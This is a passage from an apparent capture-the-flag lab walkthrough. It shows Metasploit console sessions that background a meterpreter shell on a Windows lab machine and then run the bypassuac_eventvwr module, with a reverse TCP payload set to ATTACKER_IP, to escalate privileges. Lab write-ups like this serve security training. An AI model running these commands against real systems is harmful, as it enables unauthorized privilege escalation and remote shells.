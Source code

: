 This gives the answer to the next question:

> What is the full path (starting with exploit/) for the first returned exploit?\
> > exploit/windows/local/bypassuac_eventvwr


We can now background this session and move on to using the mentioned exploit to get escalated privilages. 


```console
meterpreter > background
[*] Backgrounding session 1...

msf6 exploit(windows/http/icecast_header) > use exploit/windows/local/bypassuac_eventvwr
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

Setting some options and running the exploit will get us an escalated session:


```console
msf6 exploit(windows/local/bypassuac_eventvwr) > options

Module options (exploit/windows/local/bypassuac_eventvwr):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.80.0.22       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86

msf6 exploit(windows/local/bypassuac_eventvwr) > set LHOST ATTACKER_IP
LHOST => ATTACKER_IP

msf6 exploit(windows/local/bypassuac_eventvwr) > sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  ATTACKER_IP:4444 -> MACHINE_IP:4922
                                                             3 (MACHINE_IP)

msf6 exploit(windows/local/bypassuac_eventvwr) > set SESSION 1
SESSION => 1

msf6 exploit(windows/local/bypassuac_eventvwr) > run

[*] Started reverse TCP handler on ATTACKER_IP:4444 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
```